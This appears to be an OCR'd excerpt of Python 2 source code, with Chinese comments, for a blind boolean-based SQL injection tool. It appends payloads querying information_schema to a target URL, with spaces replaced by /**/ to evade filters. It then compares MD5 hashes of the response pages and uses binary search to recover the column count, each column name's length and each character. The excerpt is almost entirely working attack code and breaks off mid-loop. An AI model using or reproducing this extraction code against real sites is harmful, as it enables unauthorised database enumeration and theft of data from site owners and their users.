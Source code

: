     low = 1
    high = 100
    while low <= high:  #循环结束后得到列个数
        mid = (low + high)/2;

        payload = "' and ((select count(distinct+column_name) from information_schema.columns where table_name=%s and table_schema=%s) > %d)--+" % (table_name_hex,db_name_hex,mid)
        # print payload
        payload = "/**/".join(payload.split())
        mid_url = url + payload
        mid_md5_html = get_md5_html(mid_url)

        if standard_md5 == mid_md5_html:
            low = mid + 1
        else:
            high = mid-1

        column_num = (low+high+1)/2
    print "Table %s contains %d columns:" % (table_name,column_num)
    for index in xrange(0,column_num):  #一次循环输出一个列名
        low = 1
        high = 30

        while low <= high:  #循环结束后得到列名的长度
            mid = (low + high)/2

            payload = "' and (length((select distinct column_name from information_schema.columns where table_name=%s and table_schema=%s limit %d,1)) > %d)--+" % (table_name_hex,db_name_hex,index,mid)
            # print payload
            payload = "/**/".join(payload.split())
            mid_url = url + payload
            mid_md5_html = get_md5_html(mid_url)

            if standard_md5 == mid_md5_html:
                low = mid + 1
            else:
                high = mid-1

            column_name_len = (low+high+1)/2
        # print "column length is: %d" % column_name_len
        print "\tcolumn name is: ",
        for x in xrange(1,column_name_len+1):   #一次for循环输出列名的一个字符
            low = 32
            high = 126
            while low <= high: #循环结束后得到列名的一个字符的ASCII码
                mid = (low + high)/2
                payload = "' and (select ascii(substr((select distinct column_name from information_schema.columns where table_name=%s and table_schema=%s limit %d,1), %d, 1)) > %d) --+" % (table_name_hex,db_name_hex,index,x,mid)
                # print payload
                payload = "/**/".join(payload.split())
                mid_url = url + payload
                mid_md5_html = get_md5_html(mid_url)
